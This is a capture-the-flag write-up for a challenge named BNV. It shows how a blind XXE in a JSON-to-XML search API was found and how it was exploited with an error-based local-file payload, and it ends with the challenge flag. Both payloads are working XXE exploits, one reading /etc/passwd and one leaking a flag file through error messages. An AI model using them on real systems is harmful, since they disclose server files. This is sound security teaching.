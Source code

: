 # BNV

This challenge uses javascript to encode our selection to braille code.

(https://www.pharmabraille.com/pharmaceutical-braille/the-braille-alphabet/)

And it will send the data to `/api/search` with content-type `application/json`.

If we try to change the content-type to `application/xml`, it will return XML Parse Error.

So we know that target server supports XML format as input.

And there is no response output for xxe payload:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]> 
<message>&xxe;</message>
```

But if we try existent file, it will return `No result found`

And if we try non-existent file, it will return Error: `Failure to process entity xxe, line 6, column 15`

So there is a blind XXE, we need to exfiltrate the result of XXE.

<br>

This challenge disable http request, so we can't use out-of-band XXE.

Then, I try the Error-based XXE to bring the result into error message.

(https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<message>a</message>
```

![](https://github.com/w181496/CTF/blob/master/googlectf-2019-qual/bnv/bnv.png)

flag: `CTF{0x1033_75008_1004x0}`


